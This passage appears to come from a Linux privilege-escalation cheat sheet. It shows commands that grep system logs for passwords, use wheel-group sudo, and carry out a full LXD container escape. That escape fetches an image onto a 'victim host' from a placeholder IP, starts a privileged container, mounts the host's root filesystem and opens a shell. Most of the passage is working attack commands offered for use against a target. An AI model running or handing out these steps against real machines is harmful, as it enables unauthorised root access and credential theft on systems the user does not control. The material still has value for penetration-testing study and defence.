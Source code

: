 ```bash
ls -alhR /var/log                       # Display all files within /var/log
zgrep "authen" auth.log*                # Search out "authen" within auth.log compressed file
zgrep "pass" auth.log*                  # Search out "pass" within auth.log compressed 
zgrep "authen" access.log*              # Search out "authen" within access.log compressed file
zgrep "pass" access.log*                # Search out "pass" within access.log compressed file
grep -d recurse "pass" /var/log/*       # Search out "pass" within all files in /var/log
```

Here are some interesting logs:

- **/var/log/faillog**: Failure log database
- **lpr.log**: LP Print Service logs
- **var/log/mysql.**: MySQL logs

##### Wheel Group

Any user that belongs to the group wheel can execute anything as sudo

```bash
cat /etc/sudoers
sudo su
```

##### LXD & LXC

**Linux Container (LXC)** are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine.
It creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

**Linux daemon (LXD)** is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

When you are part of the LXD group, you can initialize the LXD process

```bash
lxd init # Initialize the LXD the process
# !!! When the "Do you want to configure a new storage pool?" appears, enter yes
# On your own machine get distrobuilder which is a system container image builder for LXC and LXD
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools # Install the requirements on your own machine
go get -d -v github.com/lxc/distrobuilder # Clone distrobuilder repo
cd $HOME/go/src/github.com/lxc/distrobuilder # Get to the make folder for distrobuilder
make # Make it

# Prepare the creation of alpine (still on your own computer)
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml # Create the LXD container using distrobuilder
# You will have then a lxd.tar.xz file and a rootfs.squashfs file

# Upload them to the victim host
wget http://IP:PORT/lxd.tar.xz
wget http://IP:PORT/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine # Import an image using the META file (lxd.tar.xz) and ROOTFS file (rootfs.squashfs)
lxc init alpine thomasd -c security.privileged=true # Create a container called thomasd from images alpline and give a configuration parameter to run the instance in privileged mode
lxc list # Verify that the container thomasd exist
lxc config device add thomasd host-root disk source=/ path=/mnt/root recursive=true # Add an extra device which mount "/" within the instance to the "thomasd" container  
lxc start thomasd # Run the container thomasd
lxc exec thomasd /bin/sh
```